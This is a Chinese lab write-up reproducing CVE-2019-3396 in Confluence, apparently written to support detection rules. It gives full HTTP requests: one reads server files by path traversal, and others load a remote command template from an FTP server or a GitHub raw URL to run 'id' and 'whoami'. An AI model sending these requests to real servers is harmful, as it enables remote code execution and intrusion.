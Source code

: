 ```yaml
---
layout:     post
title:      【复现】Confluence路径穿越与命令执行漏洞
subtitle:   Confluence路径穿越与命令执行漏洞
date:       2019-09-20
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - Confluence
---
```

## 前言
最近在给公司写指纹规则、漏洞检测和利用规则，因此漏洞复现的文章更新会比较频繁。

## 0x00 漏洞介绍
* 漏洞名称：Confluence 路径穿越与命令执行漏洞
* CVE编号：CVE-2019-3396
* 发布时间：2019-04-05
* 漏洞说明：Confluence Server 与 Confluence Data Center 中的 Widget Connector 存在服务端模板注入漏洞，攻击者构造特定请求可远程遍历服务器任意文件，甚至实现远程代码执行攻击。
* 影响范围：Confluence Server、Confluence Data Center
* 修复建议：目前官方已修复该漏洞，请升级到最新版

## 0x01 环境搭建
我的vulhub是老版本的，所以没有Confluence环境，我在Github找到了Confluence的docker-compose.yml：
```
version: '2'
	services:
	  web:
	    image: vulhub/confluence:6.10.2
	    ports:
	      - "8090:8090"
	    depends_on:
	      - db
	  db:
	    image: postgres:10.7-alpine
	    environment: 
	    - POSTGRES_PASSWORD=postgres
	    - POSTGRES_DB=confluence
```

保存下来，通过以下命令启动Confluence环境：
```
docker-compose up -d
```

访问10.20.40.96:8090，开始安装，选择Trial Installation后点击Next：
![图片](../../../../Confluence_rce_1.png)
这里需要去申请一个教育版的证书key:
![图片](../../../../Confluence_rce_2.png)
选择证书的时候需要注意选择Server版本的：

![图片](../../../../Confluence_rce_3.png)

输入License Key之后点击Next进入下一步，然后就会验证License Key，验证通过后开始安装，安装等待了五分钟，显示以下界面安装成功：
![图片](../../../../Confluence_rce_4.png)

### 搭建FTP Server
这里为了方便我使用python快速搭建FTP Server。
安装python ftp库：
```
pip3 install pyftpdlib
```
ftp_server.py代码如下：
```
from pyftpdlib.authorizers import DummyAuthorizer
from pyftpdlib.handlers import FTPHandler
from pyftpdlib.servers import FTPServer
 
authorizer = DummyAuthorizer()
authorizer.add_anonymous("F:\confluenceTest")
handler = FTPHandler
handler.authorizer = authorizer
server = FTPServer(("0.0.0.0", 21), handler)
server.serve_forever()
```

启动ftp_server.py:
```
python3 ftp_server.py
```
## 0x02 复现
### PoC验证
以读文件来验证漏洞是否存在，漏洞存在返回状态码为200，且存在指定关键词
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 10.20.40.96:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://10.20.40.96:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 168

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"../web.xml"}}}
```

### EXP利用
下面的这个EXP需要用到我们在环境搭建的时候搭建的FTP Server
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 10.20.40.96:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://10.20.40.96:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 195

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"ftp://10.20.40.95/cmd.vm","cmd":"id"}}}
```
可以看到下图成功执行了id命令：
![图片](../../../../Confluence_rce_5.png)

如果觉得FTP服务麻烦的也可以使用https服务，我测试的时候也是可以执行命令的，http服务是不行的。
Github地址：[https://raw.githubusercontent.com/Yt1g3r/CVE-2019-3396_EXP/master/cmd.vm](https://raw.githubusercontent.com/Yt1g3r/CVE-2019-3396_EXP/master/cmd.vm)
```
POST http://10.20.40.96:8090/rest/tinymce/1/macro/preview HTTP/1.1
Host: 10.20.40.96:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://10.20.40.96:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 247

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"https://raw.githubusercontent.com/Yt1g3r/CVE-2019-3396_EXP/master/cmd.vm","cmd":"whoami"}}}
```
![图片](../../../../Confluence_rce_6.png)

## 0x03 指纹
Confluence有一个非常明显的指纹特征，在响应报文中有两个字段：
* X-Confluence-Cluster-Node
* X-Confluence-Request-Time
## 0x04 总结
这个漏洞我在4月份的时候复现过，当时没有vm文件，所以只复现了读文件。时隔4个月，现在再来复现RCE的时候一开始还是遇到了问题，发包后服务器一直没响应，后来发现是FTP Server代码只开启监听本地，把127.0.0.1改成0.0.0.0就好了。

